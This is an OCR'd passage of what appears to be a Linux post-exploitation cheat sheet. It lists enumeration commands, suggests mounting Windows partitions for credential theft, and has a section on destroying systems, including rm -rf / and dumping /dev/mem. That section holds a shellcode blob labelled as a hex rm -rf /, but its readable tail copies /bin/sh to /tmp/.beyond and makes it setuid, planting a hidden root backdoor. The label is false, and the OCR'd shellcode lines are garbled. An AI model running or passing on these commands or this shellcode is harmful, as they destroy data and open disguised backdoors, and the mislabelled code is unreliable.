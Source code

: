 Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.
TODO: insert details on what to look for

Stuff to be sorted
## GOING TO MOVE EVERYTHING HERE FOR LEGIBILITY ONCE EDITING DIES DOWN

Command	
Output
ps aux		
List of running processes
id
List current user and group along with user/group id		
w
Show info about who is logged, what are they are doing		
who -a
Print information about users		
cat /dev/core > /dev/audio

cat /dev/mem > /dev/audio
Makes a sound from the memory content.
Usefulness of this??? (none, aside from pissing off the sysadmin, in the very unlikely case that the server has speakers and the legacy OSS driver)
sudo -p
allows the user to define what the password prompt will be
(useful for fun customization with aliases or shell scripts)
Deleting and Destroying
(If it is necessary to leave the machine inaccessible or unusable)
Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.

Oh, and you're probably a jerk if you use any of the stuff below.
Command
Description
rm -rf /
This will recursively try to delete all files.
char esp[] __attribute__ ((section(".text"))) /* e.s.p release */ = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68?
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99?

"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7?
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56?
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31?
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69?
"\x6e\x2f\x73\x68\x00\x2d\x63\x00?
"cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;";	
Hex version of rm -rf /	
How is this supposed to work?

